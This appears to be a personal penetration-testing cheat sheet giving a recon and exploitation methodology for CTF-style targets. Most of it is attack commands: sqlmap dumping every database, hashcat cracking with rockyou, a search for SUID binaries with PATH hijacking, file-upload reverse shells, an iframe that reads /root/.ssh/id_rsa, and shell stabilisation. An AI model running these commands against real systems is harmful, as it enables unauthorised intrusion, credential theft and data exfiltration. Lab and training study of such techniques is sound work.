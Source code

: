 # methodology
1. check all sites for usefull informations -> grep -iE "(user|password)" files
2. check all sites for usefull function
    - login
    - create account
    - forgot password
    - reset password
    - sqli
    - template injection
    - command injection
    - analyse webpage with zaproxy or via source-code view
3. reuse combination of users and passwords
4. CHECK EVERY FUCKING FUNCTION WITH SEARCHSPLOIT!!!
5. check password files from linpeas, linenum

# recon
sslscan --show-certificate "$rhost:443"
nikto -ask=no -h "http://$rhost$rport"
nth --text 'hash'
sth --text 'hash'
sqlmap --batch -a --forms -u "http://$rhost" --output-dir="."
sqlmap --batch -a --dump-all --forms -u "http://$rhost" --output-dir="."
cewl -d 5 -m 4 -w pot-password.txt --with-numbers -a -e "$rhost"
wpscan --url "http://$rhost$rport"
ftp $rhost             user: ftp, anonymous

# exploiting

## flaws
check if programs (with sui,gui) execute system commands without absolute path -> replace executable with binary in your path

## commands
use post/multi/manage/shell_to_meterpreter
hashcat -a 0 -m 0 hash.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
hashcat -a 0 -m 0 -r /usr/share/hashcat/rules/best64.rule hash.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
find / -perm -u=s -type f 2> /dev/null
find / -perm -g=s -type f 2> /dev/null

## file upload
file upload could be exploited with a php, asp, jsp, coldfusion, flash, perl or yaws reverse shell

## webserver flaws create html
read files via iframe: <iframe src='/root/.ssh/id_rsa'>

# Stable shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
background; stty raw -echo && stty size; fg
stty rows 58 cols 212

